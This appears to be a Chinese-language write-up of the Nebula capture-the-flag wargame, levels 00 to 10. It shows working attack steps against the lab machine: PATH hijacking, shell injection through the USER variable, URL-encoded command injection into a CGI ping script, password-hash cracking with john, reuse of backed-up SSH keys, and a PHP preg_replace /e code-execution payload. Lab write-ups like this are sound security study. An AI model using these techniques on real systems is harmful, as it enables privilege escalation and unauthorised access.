



# Nebula

## level00 -- 寻找SUID程序
用`level00`账户登录，找出由`flag00`拥有的 Set User ID的程序

要将错误结果送到/dev/null，不然出现很多 Permission denied, 会影响找到该程序。
```sh
$ find / -user flag00 2>/dev/null
/bin/.../flag00
/home/flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
/rofs/bin/.../flag00
/rofs/home/flag00
/rofs/home/flag00/.bash_logout
/rofs/home/flag00/.bashrc
/rofs/home/flag00/.profile
```

或者先查找flag00的uid。`cat /etc/passwd |grep flag00` 得到其uid为999，然后
```
$ find / -uid 999 2>/dev/null
```
也可以找到目标文件。
尝试了一下，`/rofs/bin/.../flag00`即为目标程序。
```sh
level00@nebula:~$ file /rofs/bin/.../flag00
/rofs/bin/.../flag00: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
level00@nebula:~$ ll /rofs/bin/.../flag00
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00*
level00@nebula:~$ /rofs/bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
flag00@nebula:~$ which getflag
/bin/getflag
flag00@nebula:~$ file /bin/getflag
/bin/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$
```
## level01 -- 攻击环境变量$PATH(可执行任意命令)
通过看源文件 level1.c
发现要要通过`system()`来执行shell命令。
```c
system("/usr/bin/env echo and now what?");
```
发现可以对`echo`命令做一下手脚。
在一个有权限的目录下新建一个名为echo的文件，
然后将当前目录加入到`PATH`环境变量的前面使得`/usr/bin/env`在找环境变量的时候
先找到我们自己写的这个echo命令(只是暂时生效所以不需要export)。
```
PATH=`pwd`:$PATH
```
然后在这个我们自己写的echo文件中写入**getflag**就可以以flag01的身份得到flag了。

由于/tmp目录对于任何用户都有完整的权限，虽然该目录下的文件在重启之后会消失，但我们可以在这个目录下操作。
或者也可以在/tmp目录下创建一个`/bin/getflag`的符号链接(该文件为root所拥有，其他用户没有执行权限)。
```
$ ln -s /bin/getflag /tmp/echo
```
然后将/tmp目录加入到环境变量的最前面，
```
$ PATH=/tmp:$PATH
```
这样可以让我们的这个echo程序优先于`/bin/echo`程序执行。
## level02
查看源文件level02.c
发现
```c
char *buffer = NULL;

asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
        
system(buffer);
```
通过getenv函数获得指定的环境变量UUSER的值(USER变量的值是当前登录的用户名)
要从系统环境变量中得到$USER变量，再用asprintf函数将USER的值与其他字符串连接在一起并存放在buffer变量内，
最后通过system函数执行buffer中的内容，即执行`/bin/echo %s is cool`。
由于这里已经写死了。用`/bin/echo`这个可执行文件，所以我们不能对echo文件做手脚了。
然而这个$USER变量是我们可控的。
于是我们
```sh
USER=";bash;"
```
这样就已flag02的身份得到bash了.
```sh
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
level02@nebula:/home/flag02$ echo $USER
level02
level02@nebula:/home/flag02$ USER=";bash;"
level02@nebula:/home/flag02$ echo $USER
;bash;
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```
然后就可以在flag02的shell里面执行`getflag`得到shell了。
或者直接
```sh
$ USER="test && /bin/getflag"
```
或者
```sh
$ USER=";/bin/getflag"
```
即以flag02的身份执行`/bin/echo;/bin/getflag`。
反正这个 $USER 变量是我们可控的，我们可以已flag02的身份执行任意字符串。
关于这里的`;` 和`&&`的区别。`;`表示执行完上一句紧接着执行下一句，而`&&`得在上一条命令执行成功之后再执行下一句。
## level03 -- 攻击计划任务(crontab)

```sh
for i in /home/flag03/writeable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```
其中ulimit -t 5控制CPU时间不超过5秒，bash -x "$i"用于执行$i文件。执行完之后删除文件本身。

## level04 -- 绕过权限获得token

## level05 -- 窃取机密文件
以level05的身份进入到flag05账户的家目录，发现了几个隐藏目录 .ssh 和 .backup。对于.ssh发现没有权限进入，
而.backup目录则有权限，进入之后发现一个.tgz的压缩文件，
说明：在linux中`.tgz`格式的压缩文件是`.tar.gz`的缩写。我们在解压.tgz文件时可直接使用tar命令来操作。
可以自己的工作机上解压，也可以更方便的在/tmp目录下解压。
```
$ tar zxvf xxx.tgz 
```
或者
```
$ tart zxvf xxx.tar.gz
```
不然如果用gunizp解压之后，还会得到一个.tar文件。
解压成功之后发现其内容是.ssh目录，应该是备份的公钥和私钥。如此以来，我们就可以以flag05的身份登录系统。
把.ssh复制到level05的家目录中(ssh验证时用的私钥和公钥需放在家目录下的.ssh目录中)。然后ssh登录即可。
```
$ ssh flag05@localhost
```

## level06
根据题目描述，flag06这个帐号的认证凭据是按照传统UNIX的方法存储的，意味着密文是存储在/etc/passwd中的，而不是/etc/shadow
直接读取/etc/passwd 里flag06加密后的密码
```
$ level06@nebula:~$ cat /etc/passwd |grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```
然后将这条内容保存到一个文件中，比如叫password
```
$ echo "flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh" > password
```
然后用john来破解即可。
```
$ /usr/sbin/john password
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 DONE 2/3 (2017-03-23 14:48) 14.28g/s 10714p/s 10714c/s 10714C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
得到密码为`hello`
然后用这个密码登录flag06帐号，然后getflag即可。

## level07 -- 任意命令执行

在/home/flag07这个目录下，有一个index.cgi和thttpd.conf
通过搜索thttpd的资料，知道它是一个轻量级web server。
其用法为:
```
$ thttpd -C thttpd.conf
```
使用thttpd命令然后指定其配置文件thttpd.conf即可。
需要手动开启这个服务。
由于开始thttpd服务并没有跑起来，于是需要先用nebula帐号登录然后
```
sudo -s
su flag07
/usr/sbin/thttpd -C /home/flag07/thttpd.conf
```
这样先把自己变成root，然后变成flag07，然后以flag07用户让服务跑起来。
通过`thttpd -C thttpd.conf`开启之后，发现thttpd已经在7007端口监听了。
我们需要用http客户端(比如curl)访问它的`index.cgi`文件。
这关考验的是分析这个index.cgi。
这段代码的功能是通过调用外部的ping命令去ping指定的ip地址，该ip通过参数指定
`$host = $_[0]`。最后程序会把ping的结果返回到客户端。
于是我们可以在自己的工作机上用curl -i 来得到http通信的详细结果。
注意index.cgi后接的参数Host为大写。在index.cgi文件的最后一个`param("Host")决定了这个参数。`
```
➜  CTF/Nebula master ✓ curl -i "http://192.168.170.194:7007/index.cgi?Host=127.0.0.1"                                             [15:05:48]
HTTP/1.0 200 OK
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.022/0.030/0.036/0.005 ms
</pre></body></html>%
```
由于想到index.cgi文件中的**@output = `ping -c 3 $host 2>$1`**这句，这句出现了任意命令执行漏洞。
于是构造url
`http://192.168.170.194:7007/index.cgi?Host=127.0.0.1;id`
不管通过curl还是通过浏览器访问，都不能执行`id`命令。最后想到的url编码，于是找到`;`的url编码值`%3b`，然后构造以下url
`http://192.168.170.194:7007/index.cgi?Host=127.0.0.1%3bid`，成功执行`id`命令。
```
➜  CTF/Nebula/level07 master ✓ curl -i "http://192.168.170.194:7007/index.cgi?Host=127.0.0.1%3bid"                                [15:29:32]
0mid"HTTP/1.0 200 OK
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.019 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.057 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.028 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.019/0.034/0.057/0.017 ms
uid=1008(level07) gid=1008(level07) groups=1008(level07)
</pre></body></html>%
```
于是可以构造`http://192.168.170.194:7007/index.cgi?Host=127.0.0.1%3bgetflag`成功执行`getflag`命令。

## level08
参考:
http://blog.yyx.me/posts/exploit-exercises-nebula-level-05-09.html
在`/home/flag07`目录下找到一个`capture.pcap`，所以拖出来到宿主机上用wireshark分析。跟踪TCP流，发现
`Password: backdoor...00Rm8.ate`
根据经验，一般16进制工具中.都是代表\0，就是字符串结尾（其实.表示不可读字符，一般在一堆字符串中时基本就是\0），所
以密码应该是backdoor。尝试登录，错误！于是在wireshark中吧TCP包切换到HEX显示，发现这段数据信息如下：
```
000000B9  62                                                 b
000000BA  61                                                 a
000000BB  63                                                 c
000000BC  6b                                                 k
000000BD  64                                                 d
000000BE  6f                                                 o
000000BF  6f                                                 o
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  30                                                 0
000000C5  30                                                 0
000000C6  52                                                 R
000000C7  6d                                                 m
000000C8  38                                                 8
000000C9  7f                                                 .
000000CA  61                                                 a
000000CB  74                                                 t
000000CC  65                                                 e
000000CD  0d                                                 .
```





竟然是7F，查ASCII码表发现7F是Backspace（退格），0D是CR（回车），
于是上面的意思就是，用户输入到backdoor的时候，删除了三个字符，然后输入00Rm8后，又删除了一个字符，最后输入ate，然后按下回车键。
所以最终结果拼凑起来就是： `backd00Rmate`
然后以这个密码登录flag08帐号即可得到flag08的shell，然后getflag。

## level09(PHP 不熟)
参考：
https://lightless.me/archives/Nebula-writeup.html

在/home/flag09目录下发现两个文件flag09 和flag09.php
这段代码通过正则表达式匹配[email xxx@yyy]，将`.` 替换成 `dot`，将`@`替换成`AT`。
在/tmp目录下建立一个文本文件cqq_email，内容为`[email 77caikiki@protonmail.com]`
执行`./flag09 /tmp/cqq_email`之后，得到输出
`77caikiki AT protonmail dot com`
但是我们注意这段代码:

```php
$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
```

`preg_replace`中的`/e`参数用的不多，一般都是用`/i`(忽略大小写)。于是查PHP Manual, 得知e使得preg_replace第二个参数变成函数执行，就和执行eval一样，这个参数太危险了，在PHP 5.5.0之后废除改用回调函数( preg_repace_callback() )实现了。
`preg_replace`第一个参数后使用了`/e`模式。如果启用这种模式，那么preg_replace的第二个参数将会被作为代码执行。之前ThinkPHP也出现了这种漏洞。

构造payload：
```
[email {${phpinfo()}}]
```
成功执行。
继续构造执行命令的payload。
```
[email {${system("getflag")}]
```

结果发现双引号被转义了，执行不了。
```
level09@nebula:/tmp$ /home/flag09/flag09 /tmp/phpinfo pwd
PHP Parse error:  syntax error, unexpected T_ENCAPSED_AND_WHITESPACE, expecting T_STRING in /home/flag09/flag09.php(15) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code:
spam("{${system(\'pwd\')}}") in /home/flag09/flag09.php on line 15
```
但是函数有一个$use_me 参数，看这个名字，应该算提示吧。
于是，构造包含$use_me 的payload。
```
[email {${system($use_me)}}]
```
然后在命令行传入第二个参数(之前不是一直没用到这第二个参数吗？这次用到了)。
```
level09@nebula:/tmp$ /home/flag09/flag09 /tmp/phpinfo getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

## level10 (Time of check, Time of use BUG)
在分析前先弄明白两个东西，分别是 `Effective user ID(euid)` 和 `Real user ID(ruid)`。
`ruid`的作用是`Identify the real user`, 而 `euid`的作用是 `Decides access level`。

而这里的`access()`检查的是`ruid`，在`access()`检查和使用`open()`打开文件之间的这段时间里，
我们完全可以替代掉打开的文件为`token`，因为我们已经通过了检查。
也就是说，用一个有权限的文件去绕过`access`的限制，之后马上把文件替换成没有权限的`token`，因为已经
经过了检查，所以程序可以毫无阻碍的打开没有权限的`token`文件。(在这个题中没有访问`token`文件的权限而`flag`就在`token`中)。


